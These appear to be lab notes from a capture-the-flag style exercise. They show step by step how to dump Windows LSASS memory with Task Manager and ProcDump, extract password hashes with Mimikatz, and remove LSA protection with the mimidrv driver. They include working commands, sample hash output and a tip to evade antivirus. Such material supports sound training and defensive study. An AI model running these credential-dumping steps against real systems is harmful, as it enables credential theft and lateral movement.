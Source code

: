 Local Security Authority Server Service (LSASS) is a Windows process that handles the operating system security policy and enforces it on a system. It verifies logged in accounts and ensures passwords, hashes, and Kerberos tickets. Windows system stores credentials in the LSASS process to enable users to access network resources, such as file shares, SharePoint sites, and other network services, without entering credentials every time a user connects.

Thus, the LSASS process is a juicy target for red teamers because it stores sensitive information about user accounts. The LSASS is commonly abused to dump credentials to either escalate privileges, steal data, or move laterally. Luckily for us, if we have administrator privileges, we can dump the process memory of LSASS. Windows system allows us to create a dump file, a snapshot of a given process. This could be done either with the Desktop access (GUI) or the command prompt. This attack is defined in the MITRE ATT&CK framework as "[OS Credential Dumping: LSASS Memory (T1003)](https://attack.mitre.org/techniques/T1003/001/)".

## Graphic User Interface (GUI)  
To dump any running Windows process using the GUI, open the Task Manager, and from the Details tab, find the required process, right-click on it, and select "Create dump file".
	![](Pasted%20image%2020241123234825.png)
Once the dumping process is finished, a pop-up message will show containing the path of the dumped file. Copy the file and transfer it to the AttackBox to extract NTLM hashes offline. 

Copy the dumped process to the Mimikatz folder.

Copying the LSASS Dumped file
```markup
C:\Users\Administrator>copy C:\Users\ADMINI~1\AppData\Local\Temp\2\lsass.DMP C:\Tools\Mimikatz\lsass.DMP
        1 file(s) copied.
```

## Sysinternals Suite
An alternative way to dump a process if a GUI is not available to us is by using ProcDump. ProcDump is a Sysinternals process dump utility that runs from the command prompt. The SysInternals Suite is already installed in the provided machine at the following path: `c:\Tools\SysinternalsSuite`

We can specify a running process, which in our case is lsass.exe, to be dumped as follows:

Dumping the LSASS Process using procdump.exe 
```markup
c:\>c:\Tools\SysinternalsSuite\procdump.exe -accepteula -ma lsass.exe c:\Tools\Mimikatz\lsass_dump

ProcDump v10.0 - Sysinternals process dump utility
Copyright (C) 2009-2020 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[09:09:33] Dump 1 initiated: c:\Tools\Mimikatz\lsass_dump-1.dmp
[09:09:33] Dump 1 writing: Estimated dump file size is 162 MB.
[09:09:34] Dump 1 complete: 163 MB written in 0.4 seconds
[09:09:34] Dump count reached.
```

Note:
	 The dump process is writing to disk. Dumping the LSASS process is a known technique used by adversaries. Thus, AV products may flag it as malicious. In the real world, you may be more creative and write code to encrypt or implement a method to bypass AV products.

## Mimikatz
[Mimikatz](https://github.com/gentilkiwi/mimikatz) is a well-known tool used for extracting passwords, hashes, PINs, and Kerberos tickets from memory using various techniques. Mimikatz is a post-exploitation tool that enables other useful attacks, such as pass-the-hash, pass-the-ticket, or building Golden Kerberos tickets. Mimikatz deals with operating system memory to access information. Thus, it requires administrator and system privileges in order to dump memory and extract credentials.

We will be using the `Mimikatz` tool to extract the memory dump of the lsass.exe process. We have provided the necessary tools for you, and they can be found at: `c:\Tools\Mimikatz`.

Remember that the LSASS process is running as a SYSTEM. Thus in order to access users' hashes, we need a system or local administrator permissions. Thus, open the command prompt and run it as administrator. Then, execute the mimikatz binary as follows:

Running mimikatz With Admin Privileges
```markup
C:\Tools\Mimikatz> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 Jul 10 2019 23:09:43
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # 
```

Before dumping the memory for cashed credentials and hashes, we need to enable the SeDebugPrivilege and check the current permissions for memory access. It can be done by executing `privilege::debug` command as follows:

Checking the Current Permission to Access Memory 
```markup
mimikatz # privilege::debug
Privilege '20' OK
```

Once the privileges are given, we can access the memory to dump all cached passwords and hashes from the `lsass.exe` process using `sekurlsa::logonpasswords`

Dumping the Stored Clear-text Passwords
```markup
mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 515377 (00000000:0007dd31)
Session           : RemoteInteractive from 3
User Name         : Administrator
Domain            : THM
Logon Server      : CREDS-HARVESTIN
Logon Time        : 6/3/2022 8:30:44 AM
SID               : S-1-5-21-1966530601-3185510712-10604624-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : THM
         * NTLM     : 98d3a787a80d08385cea7fb4aa2a4261
         * SHA1     : 64a137cb8178b7700e6cffa387f4240043192e72
         * DPAPI    : bc355c6ce366fdd4fd91b54260f9cf70
...
```

**Note**:
	To get users' hashes, a user (victim) must have logged in to a system, and the user's credentials have been cached.

## Protected LSASS
In 2012, Microsoft implemented an LSA protection, to keep LSASS from being accessed to extract credentials from memory. This task will show how to disable the LSA protection and dump credentials from memory using Mimikatz. 

To enable LSASS protection, we can modify the registry RunAsPPL DWORD value in `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa` to 1.

The steps are similar to the previous section, which runs the Mimikatz execution file with admin privileges and enables the debug mode. If the LSA protection is enabled, we will get an error executing the "sekurlsa::logonpasswords" command.

Failing to Dump Stored Password Due to the LSA Protection
```markup
mimikatz # sekurlsa::logonpasswords
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
```

The command returns a 0x00000005 error code message (Access Denied). Lucky for us, Mimikatz provides a mimidrv.sys driver that works on kernel level to disable the LSA protection. We can import it to Mimikatz by executing "!+" as follows:

Loading the mimidrv Driver into Memory
```markup
mimikatz # !+
[*] 'mimidrv' service not present
[+] 'mimidrv' service successfully registered
[+] 'mimidrv' service ACL to everyone
[+] 'mimidrv' service started
```

**Note**: 
	If this fails with an `isFileExist` error, exit mimikatz, navigate to `C:\Tools\Mimikatz\` and run the command again.

Once the driver is loaded, we can disable the LSA protection by executing the following Mimikatz command:

Removing the LSA Protection
```markup
mimikatz # !processprotect /process:lsass.exe /remove
Process : lsass.exe
PID 528 -> 00/00 [0-0-0]
```

Now, if we try to run the "sekurlsa::logonpasswords" command again, it must be executed successfully and show cached credentials in memory.